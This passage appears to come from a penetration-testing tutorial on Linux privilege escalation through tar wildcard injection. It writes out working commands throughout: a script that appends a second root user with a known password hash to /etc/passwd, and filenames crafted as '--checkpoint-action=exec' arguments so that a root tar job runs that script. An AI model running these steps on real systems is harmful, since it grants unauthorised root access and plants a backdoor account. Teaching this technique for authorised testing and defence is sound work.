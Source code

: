 ## Setting up the Exploit and Getting a Root Shell

Alright, the first thing we need to do is create the file that will execute in the second **–checkpoint** switch.

For this example, we will make a bash script that creates a root user in the **passwd** file.

To do this, we need to jump over to our attacker machine and then create a hashed password using **openssl**. For simplicity, we will just use ‘password’ as the password.

```shell
openssl passwd password
```

![](https://juggernaut-sec.com/wp-content/uploads/2022/11/image-109.png)

After running the command we are provided a hash value **ShuKpZV7v9akI** – keep this handy as we will need it for our next command.

Next, we will create a script that will add a second root user **“r00t”** into the passwd file

```shell
echo '#!/bin/bash' > /var/www/html/rootme.sh
echo "" >> /var/www/html/rootme.sh
echo 'echo "r00t:ShuKpZV7v9akI:0:0:root:/root:/bin/bash" >> /etc/passwd' >> /var/www/html/rootme.sh
```

![](https://juggernaut-sec.com/wp-content/uploads/2023/03/image-418-1024x123.png)

Script looks good! We just need to give it execute permissions so that tar can execute it for us.

```shell
chmod 755 ./rootme.sh
```

Next we need to create our switch “files” to run this script for us.

```shell
touch '/var/www/html/--checkpoint=1'
touch '/var/www/html/--checkpoint-action=exec=sh rootme.sh'
```

![](https://juggernaut-sec.com/wp-content/uploads/2023/03/image-420.png)

Everything is set and now for the moment of truth…

Checking the passwd file less than a minute later, we can see that the r00t user was created!

```shell
cat /etc/passwd | grep r00t
```

![](https://juggernaut-sec.com/wp-content/uploads/2023/03/image-421.png)

Great! The exploit worked and created a root user. Now we can simply become r00t using the **su** command and typing **password** as the password when prompted.

![](https://juggernaut-sec.com/wp-content/uploads/2023/03/image-422.png)
